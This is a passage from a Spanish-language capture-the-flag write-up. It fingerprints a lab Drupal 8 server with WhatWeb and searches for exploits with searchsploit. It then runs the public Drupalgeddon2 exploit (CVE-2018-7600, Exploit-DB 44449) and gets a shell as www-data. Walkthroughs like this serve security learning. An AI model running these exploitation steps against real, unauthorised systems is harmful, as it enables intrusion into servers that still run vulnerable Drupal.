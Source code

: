 ### Salida de Whatweb

```
 Summary   : Apache[2.4.25], Content-Language[en], Drupal, HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)],  
MetaGenerator[Drupal 8 (https://www.drupal.org)], PHP[7.2.3], PoweredBy[-block], Script, UncommonHeaders[x-drupal-d  
ynamic-cache,x-content-type-options,x-generator,x-drupal-cache], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/7.2.  
3], X-UA-Compatible[IE=edge]
```

Nos confirma que la aplicación es **Drupal 8** y que el servidor Apache es la versión **2.4.25**, con PHP **7.2.3**. Con esta información, podemos buscar vulnerabilidades conocidas utilizando `searchsploit`

### Búsqueda de Exploits con Searchsploit

```bash
searchsploit apache 2.4.25
searchsploit drupal 8
```

Al buscar exploits para 


Apache 2.4.25 y Drupal 8, la búsqueda para Drupal 8 es la más prometedora. Específicamente, el exploit `44449.rb` para **Drupalgeddon2** (CVE-2018-7600) es el relevante para esta versión de Drupal.

## 4. Explotación de Drupal (Drupalgeddon2 - CVE-2018-7600)

La vulnerabilidad **Drupalgeddon2** (CVE-2018-7600) es una vulnerabilidad de ejecución remota de código (RCE) crítica que afecta a varias versiones de Drupal, incluyendo Drupal 8.x. Esta vulnerabilidad permite a un atacante ejecutar código en el servidor web sin autenticación, simplemente enviando una solicitud especialmente diseñada.

### Descarga y Preparación del Exploit

El exploit se descarga de Exploit-DB (https://www.exploit-db.com/exploits/44449). Una vez descargado, se le otorgan permisos de ejecución y se instala una dependencia necesaria.

```bash
chmod 700 44449.rb
gem install highline # instalamos esta dependencia
ruby 44449.rb http://172.17.0.2/drupal/ # ejecutamos el exploit
```

### Obtención de Ejecución Remota de Comandos (RCE)

Tras la ejecución exitosa del exploit, se obtiene una shell en el servidor. [Ejotapete_Drupal_ReverseSell](Imagenes/Ejotapete_Drupal_ReverseSell.png)

```bash
whoami # www-data
```
